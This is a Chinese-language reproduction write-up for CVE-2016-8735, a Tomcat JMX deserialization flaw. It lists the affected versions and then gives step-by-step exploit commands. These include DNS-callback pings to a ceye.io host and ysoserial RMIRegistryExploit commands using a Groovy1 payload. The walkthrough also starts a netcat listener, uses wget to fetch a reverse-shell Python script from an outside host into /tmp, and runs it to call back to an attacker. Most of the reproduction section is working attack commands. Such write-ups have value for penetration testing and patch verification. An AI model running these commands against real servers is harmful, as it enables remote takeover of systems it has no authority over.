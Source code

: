 ```yaml
---
title: （CVE-2016-8735）Tomcat 反序列化漏洞
id: zhfly3197
---
```


# （CVE-2016-8735）Tomcat 反序列化漏洞

## 一、漏洞简介

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到9.0.0.M11
ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38
ApacheTomcat 7.0.0 到7.0.72
ApacheTomcat 6.0.0 到6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用Ceye回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```

![image](../img/5c635d584ad377166fa6393adc54121b.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![image](../img/250cd135739a99bc7b95d5be63f11092.png)

直接NC监听服务：

```
nc -l -vv 12555 
```

![image](../img/337a14636fe8cce352b6a8476ed62331.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在wget的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```

![image](../img/f8bf4b128bf7bec791c54a27504a9a8f.png)

成功反弹：

![image](../img/5c3cc5a594376195833b12f1107fa722.png)

![image](../img/e9a556604e8b7d9e18984b94d314b537.png)
